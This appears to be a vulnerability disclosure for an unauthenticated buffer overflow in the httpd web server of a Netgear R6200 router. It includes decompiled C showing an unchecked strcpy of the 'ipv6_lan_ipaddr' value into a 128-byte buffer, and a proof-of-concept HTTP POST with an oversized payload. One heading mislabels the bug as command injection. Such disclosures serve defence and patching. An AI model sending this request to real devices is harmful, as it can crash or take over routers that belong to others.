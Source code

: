 # Buffer Overflow Vulnerability in `ipv6_lan_ipaddr`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | Netgear R6200 Router                                         |
| Firmware Version     | V1.0.1.58_1.0.44                                             |
| Vulnerability Type   | **Buffer Overflow**                                          |
| Vulnerable Component | `httpd` (`IPv6FixCgiMain` → `IPv6CgiGetParam`) (data flow via `ipv6_lan_ipaddr`) |
| Prerequisites        | No authentication required; attacker must supply crafted input via web interface parameter `ipv6_lan_ipaddr` |

2. Exploitation Path

```c
int __fastcall IPv6FixCgiMain(char *a1, int a2)
{
  ...
  char v7[256]; // [sp+18h] [-100h] BYREF
  ...
  websGetVar(a1, "ipv6_lan_ipaddr", v7);
  if ( !acosNvramConfig_match("ipv6_lan_ipaddr", v7) )
  {
    acosNvramConfig_set("ipv6_lan_ipaddr", v7);
    v4 = 1;
  }
  ...
}

int __fastcall IPv6CgiGetParam(int a1, const char *a2, char *a3)
{
  char v25[128]; // [sp+7Eh] [-182h] BYREF
  ...    
  v10 = (const char *)acosNvramConfig_get("ipv6_lan_ipaddr");
  strcpy(v25, v10);
  ...
}
```

3. **Vulnerable Binaries:** The vulnerability resides in the `httpd` binary.

4. 0-Day Command Injection Exploitation Path: In the `httpd` binary, the `IPv6FixCgiMain` function at line 6 invokes `websGetVar(a1, "ipv6_lan_ipaddr", v7)` to receive input. Although a 255-byte length restriction is enforced at this stage, no additional validation is applied. The input is subsequently stored via `acosNvramConfig_set("ipv6_lan_ipaddr", v7)` at line 9. Later, the `IPv6CgiGetParam` function retrieves this value at line 19 using `v10 = (const char *)acosNvramConfig_get("ipv6_lan_ipaddr")`. Finally, at line 20, the data is copied into the destination buffer `v25` using `strcpy(v25, v10)`, where `v25` has a size of 128 bytes, resulting in a buffer overflow vulnerability.

5. Proof of Concept (PoC) for Reproducing the Vulnerability

```http
POST /cgi-bin/IPv6FixCgiMain HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 300
Connection: close

ipv6_lan_ipaddr=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
